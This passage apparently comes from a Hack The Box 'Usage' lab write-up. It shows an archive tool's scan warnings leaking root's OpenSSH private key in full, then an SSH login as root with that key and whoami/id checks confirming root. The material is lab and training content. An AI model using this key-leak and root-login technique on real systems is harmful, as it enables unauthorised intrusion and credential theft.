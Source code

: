 ```bash
                                                                               
Files read from disk: 18210
Archive size: 54979640 bytes (53 MiB)

Scan WARNINGS for files and folders:

-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
19108ad4b2645046b4286284aa0c2e7a : No more files
----------------
Scan WARNINGS: 8
xander@usage:/var/www/html$ 
```
{: .nolineno}


```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Usage]
└─$ ssh root@usage.htb -i id_rsa
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Mon Apr  8 01:17:46 PM UTC 2024

  System load:           1.9072265625
  Usage of /:            64.8% of 6.53GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             254
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.18
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5616


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Apr  8 13:17:47 2024 from 10.10.14.40
root@usage:~# whoami
root
root@usage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@usage:~# ls -al
total 44
drwx------  7 root root 4096 Aug 12 16:21 .
drwxr-xr-x 19 root root 4096 Apr  2 21:15 ..
lrwxrwxrwx  1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
```